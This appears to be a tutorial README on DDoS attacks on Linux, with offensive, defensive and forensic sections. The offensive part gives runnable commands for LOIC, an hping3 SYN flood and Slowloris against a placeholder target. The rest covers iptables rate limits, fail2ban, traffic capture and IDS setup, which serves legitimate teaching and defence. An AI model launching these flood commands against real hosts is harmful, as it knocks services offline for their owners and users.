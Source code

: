 # **DDoS Attacks Practically on Linux**

## **1. Offensive Perspective (Simulating DDoS Attacks)**
⚠️ **Warning: Educational purpose only ** Conduct these activities in a controlled lab environment only.

### **1.1 Using LOIC (Low Orbit Ion Cannon)**
LOIC is a simple stress-testing tool that can simulate TCP, UDP, and HTTP floods.
#### **Installation:**
```bash
sudo apt install mono-complete
wget https://github.com/NewEraCracker/LOIC/archive/refs/heads/master.zip
unzip master.zip && cd LOIC-master
```
#### **Execution:**
```bash
mono LOIC.exe
```
Configure the target and initiate the attack.

### **1.2 Using Hping3 (SYN Flood)**
Hping3 can be used to send TCP SYN packets rapidly.
#### **Installation:**
```bash
sudo apt install hping3
```
#### **Execution:**
```bash
sudo hping3 -S -p 80 --flood <target-ip>
```

### **1.3 Using Slowloris (Application Layer Attack)**
Slowloris exhausts available HTTP connections on the target.
#### **Installation & Execution:**
```bash
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
python3 slowloris.py <target-ip>
```

---
## **2. Defensive Perspective (Mitigation Strategies)**
### **2.1 Using IPTables for Traffic Filtering**
#### **Block SYN Flood:**
```bash
sudo iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 3 -j ACCEPT
sudo iptables -A INPUT -p tcp --syn -j DROP
```
#### **Block UDP Flood:**
```bash
sudo iptables -A INPUT -p udp -m limit --limit 10/s -j ACCEPT
sudo iptables -A INPUT -p udp -j DROP
```

### **2.2 Using Fail2Ban for Rate Limiting**
#### **Installation:**
```bash
sudo apt install fail2ban
```
#### **Configuration:**
Edit `/etc/fail2ban/jail.local`:
```
[sshd]
enabled = true
maxretry = 3
bantime = 3600
```

---
## **3. Forensic Perspective (Analyzing DDoS Attacks)**
### **3.1 Using Wireshark**
Wireshark can capture and analyze packet-level data.
#### **Execution:**
```bash
sudo wireshark
```
Filter SYN flood packets using:
```
tcp.flags.syn == 1 && tcp.flags.ack == 0
```

### **3.2 Using Tcpdump**
Tcpdump allows real-time network traffic monitoring.
#### **Execution:**
```bash
sudo tcpdump -i eth0 port 80
sudo tcpdump -n -c 1000 'tcp[tcpflags] & (tcp-syn) != 0'
```

### **3.3 Using Netstat to Detect High Connections**
Detect excessive connections from an IP.
#### **Execution:**
```bash
netstat -ant | awk '{print $5}' | sort | uniq -c | sort -nr
```

---
## **4. Converting a Target System to Detect & Defend**
### **4.1 Using Snort (Intrusion Detection System)**
#### **Installation:**
```bash
sudo apt install snort
```

### **4.2 Using Suricata (IDS/IPS)**
#### **Installation & Execution:**
```bash
sudo apt install suricata
sudo suricata -c /etc/suricata/suricata.yaml -i eth0
```

---
## **Final Notes**
- **Use Kali Linux** for offensive testing.
- **Use Ubuntu or CentOS** for defensive analysis.
- **Setup a private network** (VirtualBox or Raspberry Pi cluster) for ethical hacking.
- **Emphasize responsible cybersecurity practices.**

